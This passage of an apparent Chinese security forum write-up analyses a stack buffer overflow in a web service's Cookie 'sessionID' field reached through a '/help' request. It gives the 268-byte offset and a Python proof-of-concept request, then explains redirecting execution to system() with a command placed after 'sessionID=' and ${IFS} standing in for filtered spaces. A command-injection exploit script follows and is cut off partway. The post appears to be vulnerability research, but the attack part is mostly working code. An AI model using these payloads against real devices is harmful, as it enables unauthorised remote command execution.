 ![](https://bbs.pediy.com/upload/attach/202108/793907_WEAH89B8WJGGTSJ.png)

 

分析 crash 结果，得知是在 overflow 函数返回前抛出的内存引用异常。原因是数据过长，覆盖了上一个栈帧的变量，导致最后一个 strcpy 往上一个栈帧 a5 变量地址写数据时，该地址不合法。

 

所以为了能够保证利用，需要刚好覆盖到 overflow 函数的返回地址。

 

经过调试，测得偏移为 268,POC 如下：

```
from pwn import *
import requests
import urllib3
import sys
 
url = sys.argv[1]
 
if url[-1:]=='/':
   url=url[:-1]
 
payload = "sessionID=1234".ljust(268,"a")
 
urllib3.disable_warnings()
 
url= url+"/help"
head= {'Cookie':payload}
r=requests.get(url,headers=head,verify=False)
 
print(r)
print(r.text)
print(r.content)

```

![](https://bbs.pediy.com/upload/attach/202108/793907_A2HJVFDVNWYK52R.png)

 

payload 末位被置零，返回地址 0x161DC 被替换成 0x16100，且可以观察到此时的 r0 寄存器指向 sessionID = 后的字符串 1234，因此可以在 sessionID = 后放置命令字符串，然后控制 PC 跳转到 system 函数上。由于 cookie 在 overflow_back1 函数中被过滤了空格，在 overflow 中被过滤了等号，导致命令执行受限，空格可以用 ${IFS} 替换，等号只能避免使用了。

 

![](https://bbs.pediy.com/upload/attach/202108/793907_P546WWX8XGJ6K44.png)

Command Inject EXP
==================

```
import requests
import sys
import base64
import urllib3
 
if len(sys.argv)!=3:
    print "Parameter error. python exp.py url \"command\""
    exit(0)
 
url = sys.argv[1]
cmd =  sys.argv[2]
 
CMD=";"+cmd+";"
CMD=base64.b64encode(CMD)
 
```